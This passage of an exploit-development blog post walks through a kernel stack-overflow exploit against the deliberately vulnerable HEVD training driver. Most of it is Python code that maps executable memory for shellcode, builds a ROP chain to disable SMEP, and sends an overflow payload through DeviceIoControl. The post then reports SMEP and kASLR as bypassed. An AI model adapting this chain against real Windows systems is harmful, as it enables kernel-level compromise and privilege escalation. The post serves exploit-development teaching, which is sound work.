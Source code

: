 ``` python
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
```

Looks good. Now check it:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-smep-bypass/success1_ji7qih.gif)

</div>

And this is the content of the `CR4` register:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/smep-disabled_fsvseg.webp)

</div>

As you can see, we were able to disable `SMEP` and made `EAX
= 0xdeadbeef`\!

## Conclusions

In this post we were able to execute a shellcode which made `EAX
= 0xdeadbeef`. We also bypassed `SMEP` protection using a `kROP` chain
and defeated `kASLR` by leaking the kernel base address from `ring-3`.
However, we have still have to get a privileged shell on this system,
which will be covered in the [next
article](../hevd-privilege-escalation/).
